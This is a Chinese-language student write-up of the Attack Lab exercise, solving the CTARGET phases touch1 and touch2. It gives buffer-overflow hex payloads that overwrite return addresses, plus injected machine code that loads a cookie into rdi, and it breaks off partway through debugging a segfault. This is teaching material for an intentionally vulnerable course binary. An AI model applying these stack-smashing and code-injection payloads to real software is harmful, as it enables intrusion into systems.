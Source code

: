 ### 4-1

您的任务是让 CTARGET 在 getbuf 执行其 return 语句时执行 touch1 的代码，而不是返回到 test。请注意，
利用字符串还可能损坏与这个阶段没有直接关系的堆栈部分，但这不会造成问题，因为  touch1 会导致程序
直接退出**所以我们让栈溢出之后的第一个位置是touch1的地址，即可ret到touch1**

答案为

```bash
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

cd 4-1之后

```text
../hex2raw < hex  > str &&../ctarget -q < str   
```

即可通过。

### 4.2

我们需要做什么？ 答：和4-1一样ret，只不过**是ret去执行touch2**(touch2.c代码在pdf中有，因为那个c代码不全，我建议还是直接看汇编)，并且还要带上参数，这个参数的值是你的cookie.txt中的值 ，**用rdi传参**

**首先注意此题是非常容易出错的！需要对ret有本质的了解！！**（事实上我搜了几个博主他们都做错了，他们的答案已经不能通过现在（2021/12/26）的测试了）

一种受4.1影响的错误思路，就是直接多加一个ret，代码如下

```c
/* touch2 */
48 c7 c7 fa 97 b9 59  /* mov $0x59b997fa,%rdi */
c3   /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */
78 dc 61 55 00 00 00 00   /* 去栈底执行 */
ec 17 40 00 00 00 00 00  /* c3执行时 会pop 这个 touch2 */  /* 第一次ret之后的 rsp位置 */
/* 第二次ret 之后rsp 的位置*/
```

大意是：ret两次，第一次到栈底去执行 传参数rdi， 然后再ret，这样我们就可以将cookie带到touch中了，并且成功进入，一切都十分顺利，并成功进入了validate，正当我准备迎接pass的时候，不幸的是：得到的是segmentation fault，并且可以看出我们是成功进入了touch2的且cookie是正确的，**那么说明问题出在validate里面。**

![image-20211227004040517](https://gitee.com/wzjia/picture/raw/master/image-20211227004040517.png)

我搜了很多人的题解，说实话他们基本上和我错的一样....但是他们以前通过了。没办法，只有调试了：cgdb ./ctarget 

接下来我们把断点打在 0x40181d（callq validate 的地方）

run -q < res-C-2.hex 之后一直nexti，最后我们的指针停在了这！，他的意思是这个%rsp这个地址是非法的 ，可是怎么就非法了呢？

![image-20211227004537501](https://gitee.com/wzjia/picture/raw/master/image-20211227004537501.png)
